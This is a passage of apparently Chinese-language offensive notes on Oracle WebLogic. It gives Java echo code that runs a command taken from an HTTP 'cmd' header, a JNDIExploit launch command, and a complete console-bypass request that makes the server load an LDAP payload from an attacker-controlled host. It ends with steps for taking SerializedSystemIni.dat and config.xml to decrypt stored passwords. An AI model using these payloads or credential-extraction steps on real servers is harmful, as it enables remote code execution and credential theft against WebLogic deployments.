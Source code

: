 ```python
Object obj = field.get(adapter);
weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) obj.getClass().getMethod("getServletRequest").invoke(obj);
String cmd = req.getHeader("cmd");
String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};
if (cmd != null) {
    String result = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter("\\A").next();
    weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);
    res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));
    res.getServletOutputStream().flush();
    res.getWriter().write("");
}executeThread.interrupt();
");
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1622475921093-9288a5b0-218e-490e-8fd0-3fcb6f5c3fd7.png#height=454&id=P0LaS&originHeight=908&originWidth=1488&originalType=binary&ratio=1&size=162823&status=done&style=none&width=744)


[https://blog.csdn.net/qq_41901122/article/details/113791238](https://blog.csdn.net/qq_41901122/article/details/113791238) jndi构造回显<br />java -jar .\JNDIExploit-v1.11.jar -i 192.168.201.1
```python
POST /console/css/%252e%252e%252f/consolejndi.portal HTTP/1.1
Host: 192.168.201.135:49163
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
cmd: ls -la
Content-Type: application/x-www-form-urlencoded
Content-Length: 175

_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.201;1:1389/Basic/WeblogicEcho;AdminServer%22)
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1627570621652-cbb5c470-6170-4c9d-adad-9d112b75f4cd.png#height=311&id=X7YSH&originHeight=622&originWidth=1860&originalType=binary&ratio=1&size=236093&status=done&style=none&width=930)

<a name="yDIVC"></a>
### weblogic解密
需要SerializedSystemIni.dat取出来<br />路径<br />bea\user_projects\domains\gmap\config\jdbc\webdev-jdbc.xml<br />/root/Oracle/Middleware/user_projects/domains/base_domain/security/SerializedSystemIni.dat  文件下载到本地<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1629451453768-9b969f56-788a-4abf-af82-ab9bc2387351.png#height=221&id=UPBNb&originHeight=294&originWidth=770&originalType=binary&ratio=1&size=34683&status=done&style=none&width=578)<br />/root/Oracle/Middleware/user_projects/domains/base_domain/config/config.xml  取出其中的password<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1629452022928-523dd55c-854a-4c78-a718-8f1b2b1403af.png#height=450&id=lEHcO&originHeight=600&originWidth=800&originalType=binary&ratio=1&size=56823&status=done&style=none&width=600)
